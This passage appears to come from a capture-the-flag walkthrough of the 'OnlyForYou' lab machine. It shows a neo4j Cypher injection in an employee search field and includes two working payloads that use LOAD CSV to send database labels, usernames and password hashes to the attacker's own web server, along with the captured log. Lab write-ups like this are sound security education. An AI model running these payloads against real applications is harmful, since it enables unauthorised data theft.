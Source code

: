 We can see that there was a recent migration to a `neo4j` database

From the `Employees` tab we have a section where we can search for different users.

<figure><img src="Images/OnlyForYou/port8001_employees.png" alt=""><figcaption></figcaption></figure>

Pretty sure this is pulling straight from the database so let's use some of these neo4j cypher queries from [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j).\


We will need to start up a server on our attack machine to receive the requests:\


**Query #1**

```
'OR 1=1 WITH 1 as a CALL db.labels() YIELD label LOAD CSV FROM 'http://10.10.14.231/?l='+label as l RETURN 0 as _0 //
```

**Response #1**

```console
toasty@parrot$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.210 - - [25/Aug/2023 21:59:58] "GET /?l=user HTTP/1.1" 200 -
10.10.11.210 - - [25/Aug/2023 21:59:58] "GET /?l=employee HTTP/1.1" 200 -
```

**Query #2**

```
'OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.231/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

**Response #2**

```console
10.10.11.210 - - [25/Aug/2023 22:01:28] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [25/Aug/2023 22:01:28] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [25/Aug/2023 22:01:29] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [25/Aug/2023 22:01:29] "GET /?username=john HTTP/1.1" 200 -
```
